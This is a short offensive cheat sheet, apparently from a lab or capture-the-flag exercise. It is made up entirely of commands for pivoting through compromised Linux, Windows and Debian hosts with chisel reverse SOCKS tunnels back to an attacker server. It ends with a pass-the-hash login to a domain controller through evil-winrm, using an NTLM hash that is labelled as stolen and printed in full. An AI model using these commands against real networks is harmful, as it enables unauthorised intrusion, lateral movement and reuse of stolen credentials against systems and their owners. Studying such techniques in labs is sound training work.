 ## Attacker Server
./chisel_1.9.1_linux_amd64 server -p 8001 --reverse -v --keepalive 5s --socks5 25000

## Machine 1 (Linux)
chisel client 192.168.1.72 8001 --reverse R:socks:2000
vi /etc/proxychains4.conf # Change socks and port

## Machine 2 (Windows)
chisel client 192.168.1.72 8001 --reverse R:socks:2001

## Machine 3 (Debian)
chisel client 192.168.1.72 8001 --reverse R:socks:2002

## Attacker Machine
proxychains ssh

## Attacker Remote Connection to DC01 with stolen NTLM hash
proxychains evil-winrm -i 10.10.83.152 -u administrator -H 59b280ba707d22e3ef0aa587fc29ffe5
